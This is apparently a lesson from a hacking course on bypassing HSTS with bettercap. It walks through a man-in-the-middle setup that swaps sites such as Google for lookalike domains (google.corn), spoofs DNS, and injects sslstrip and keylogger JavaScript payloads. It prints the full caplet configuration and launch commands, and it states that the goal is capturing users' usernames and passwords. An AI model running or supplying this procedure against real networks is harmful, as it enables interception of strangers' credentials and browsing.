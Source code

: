 ```yaml
---
title: Bypassing HSTS
type: default
layout: page
---
```


In the previous lesson, we seen how to downgrade HTTPS websites to HTTP and this
allowed us to basically see anything an user does on these websites, because
data in HTTP is sent in plain text, therefore, we are able to see the usernames,
the passwords, the URLS and anything they do on HTTPS websites.

In the end of the previous lesson, I mentioned that the method shown won't work
in websites like Facebook Twitter and other websites that use HSTS.

The reason why it won't work against these websites, is because modern browsers
come with a list of websites that they should only load over HTTPS. What we were
doing on the previous lesson, whenever a browser requests a website, we load
that website even if it uses HTTPS, but we always give him back the HTTP
version. In HSTS, the browser knows that this website, for example,
_facebook.com_ should **ALWAYS** be loaded over HTTPS. So, even before sending
this request to us it will always send it in HTTPS and it will only accept it
if it comes back as HTTPS. There's nothing we can really do once we become the
man in the middle, because the browser is doing this check locally, it's
checking this against a list that is stored on the computer itself, therefore,
the only practical solution at the moment to bypass HSTS is to make the browser
think that it is loading another website, to do this, we are going to replace
all the HSTS links in loaded pages to similar links, for example:

* We can replace _facebook.com_ with _facebook.**corn**_. It seems very
suspicious, but when it goes into the URL bar, the _RN_ at the middle,
it will seem very similar to the _M_ letter.
* You can replace _twitter.com_ with _**twiter**.com_, but with a single
_T_ instead of a double _T_.

I know it might sound confusing, but let's do it practically so it becomes
more clear.

We are going to use the HSTS caplet again, the one that we used in the previous
lesson, but we are going to do a few modifications.

To modify the HSTS caplet, we have to open the .cap file at its location
(/usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap) with the text
editor of your choice, you should see a file like the following:

```
# Documentation can be found at https://github.com/bettercap/caplets/tree/master/hstshijack

# Domains assigned to 'hstshijack.targets', 'hstshijack.blockscripts' and 'hstshijack.payloads'
# variables get precendence over those assigned to the 'hstshijack.ignore' variable.
set hstshijack.targets         *.google.com, google.com, gstatic.com, *.gstatic.com
set hstshijack.replacements    *.google.corn,google.corn,gstatic.corn,*.gstatic.corn
set hstshijack.ssl.domains     /usr/local/share/bettercap/caplets/hstshijack/domains.txt
set hstshijack.ssl.index       /usr/local/share/bettercap/caplets/hstshijack/index.json
set hstshijack.ssl.check       true
#set hstshijack.blockscripts    example.com,*.example.com
set hstshijack.obfuscate       true
set hstshijack.encode          true
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js
#set hstshijack.ignore          *

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js
http.proxy on

set dns.spoof.domains  *.google.corn,google.corn,gstatic.corn,*.gstatic.corn
set dns.spoof.all      true
dns.spoof on
```

The things that you want to understand and might change are the values of
_hstshijack.targets_ and _hstshijack.replacements_. The targets are the domains
that use HSTS and you want to replace, for example, one of its values are
_google.com_ and there is also _*.google.com_, basically when you use a star
it is a wildcard, it means that any subdomain **.google.com** is a target as
well. And _replacements_ is what you want to replace the targets with, for
example, whenever we see google.com we are going to replace it with
google.corn. You can also play with the _hstshijack.obfuscate_ and
_hstshijack.encode_ options, what they are going to do is to obfuscate and
encode the code, take in account that some browsers like Firefox
might block obfuscated or encoded code, so try switching values from
_true_ to _false_ and viceversa to see which one yields the best results for
you.

The values of _hstshijack.payloads_ you can set any other JavaScript code
that you want to inject, we will talk about javascript injection
in future lessons and finally, you want to make sure that the
DNS spoof domains are set exactly the same as the replacements set a few
lines up in the code.

If you modify this file, make sure to save, quit and restart BetterCAP.

Running this attack will be identical to what we did in the previous
lecture you just want to make sure to modify the _hstshijack.cap_ file
properly.

So just execute BetterCAP:

```bash
bettercap -iface enp1s0 -caplet ~/arp.cap
```

And run the _hstshijack_ caplet:

```bash
hstshijack/hstshijack
```
